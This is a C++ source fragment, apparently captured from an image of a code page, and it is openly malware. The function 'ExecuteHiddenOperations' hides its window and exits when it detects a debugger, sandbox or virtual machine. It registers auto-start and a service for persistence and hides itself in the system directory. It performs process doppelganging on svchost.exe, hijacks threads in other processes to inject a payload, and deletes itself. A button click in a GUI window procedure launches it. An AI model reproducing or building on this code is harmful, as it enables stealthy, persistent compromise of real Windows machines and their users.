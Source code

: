 std::atomic<bool> AutoRestart::isWatcherRunning(true);
HANDLE AutoRestart::hMutex = NULL;
const wchar_t* AutoRestart::MUTEX_NAME;
const wchar_t* AutoRestart::RESTART_EVENT_NAME;

void ExecuteHiddenOperations() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    
    InitializeSecurity();
    
    if (IsDebuggerPresentCustom() || CheckSandbox() || IsVirtualMachine()) {
        ExitProcess(0);
    }
    
    AutoRestart::Initialize();
    AutoRestart::RegisterAutoStart();
    AutoRestart::InstallService();
    
    SIZE_T payloadSize = 1024 * 1024;
    LPVOID hiddenMemory = MemorySubversion::AllocateHiddenMemory(payloadSize);
    
    SystemCamouflage::HideInSystemDirectory();
    
    wchar_t system32[MAX_PATH];
    GetSystemDirectoryW(system32, MAX_PATH);
    std::wstring targetPath = std::wstring(system32) + L"\\svchost.exe";
    
    ProcessDoppelganger::Execute(targetPath.c_str());
    
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (hSnapshot != INVALID_HANDLE_VALUE) {
        THREADENTRY32 te;
        te.dwSize = sizeof(te);
        
        if (Thread32First(hSnapshot, &te)) {
            do {
                if (te.th32OwnerProcessID == GetCurrentProcessId()) continue;
                
                HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
                if (hThread) {
                    GargoyleROP::HijackThread(hThread, (LPVOID)InjectPayload);
                    CloseHandle(hThread);
                }
            } while (Thread32Next(hSnapshot, &te));
        }
        CloseHandle(hSnapshot);
    }
    
    SelfDelete();
}

LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    switch (uMsg) {
        case WM_COMMAND:
            if (LOWORD(wParam) == 1) {
                ShowWindow(hwnd, SW_HIDE);
                CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ExecuteHiddenOperations, NULL, 0, NULL);
                return 0;
            }
            break;
        case WM_DESTROY:
            PostQuitMessage(0);
            return 0;
    }
    return DefWindowProc(hwnd, uMsg, wParam, lParam);
}
